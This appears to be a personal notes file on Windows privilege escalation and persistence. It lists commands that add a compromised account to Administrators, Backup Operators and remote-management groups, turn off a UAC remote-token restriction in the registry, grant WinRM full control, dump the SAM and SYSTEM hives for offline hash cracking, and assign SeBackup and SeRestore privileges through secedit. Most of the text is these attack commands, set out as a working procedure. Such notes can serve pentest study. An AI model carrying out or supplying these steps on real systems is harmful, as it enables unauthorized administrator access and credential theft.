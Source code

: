 Windows Privillege Escelation

A complete description of the various Windows privilleges -> https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

The basic syntax for assigning a user to a group is:

`net localgroup <GROUP> <USER> /add

Adding to the admin group:

`net localgroup Administrators <USER> /add`

If using the admin group seems to hot you can try Backup Operators group

`net localgroup "Backup Operators" <USER> /add`

A few things about the "Backup Operators Group"

    - No Administrator Privilleges by default
    - No RDP access by default
    - Can read SAM/SYSTEM Registry Hives ignoring DACL's in place

Thus the path is 1) Add to RDP access group -> 2) Dump Hives -> 3) Hopefully crack an Admin hash

Giving a user RDP access, note you must have their password to use RDP:

`net localgroup "Remote Management Users" <USER> /add

The UAC `LocalAccountTokenFilterPolicy` will strip users of their Administrator privlleges over RDP. You can remove this with:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

Another way of accessing RDP would be through modifying the security descriptor of the WinRM service. A security descriptor is 
like a ACL but applied to system facillities. Open the configuration in Powershell

`Set-PSSessionConfiguration -Name Microsoft.Powershell -showSecurityDescriptorUi`

From here you can assign a user of your choice to have "Full Control/All Operations"

Dumping Registry Hives ;) (via RDP)

`reg save hklm\system system.bak; download system.bak`

`reg save hklm\sam sam.bak; download sam.bak` 

These can then be dumped with a cracking tool of your choice

Privilleges

SeBackupPrivillege -> Can read any file on system and ignore the DACL in place
 
SeRestorePrivillege -> The user can write any file on the system ignoring DACL's

As with groups privilleges can be assigned directly to a user independent of the group they belong to, to do so use `secedit`

First export the current configuration to a temporary file:
 `secedit /export /cfg config.inf` 

Open this in notepad (it'd be great if they could just ship with vi by default like literally every other operating system)

Next to the privillege you would like to add to you're user, add the username to the end 

Ex. `SeRestorePrivllege = blah, blah blah, <COMPRIMISED_ACCOUNT>` 

Next you'll need to load the configuration onto the system, but first convert it from .inf to .sdb

`secedit /import /cfg config.inf /db config.sdb`

`secedit /configure /db config.sdb /cfg config.inf`

TODO RID HIjakcing
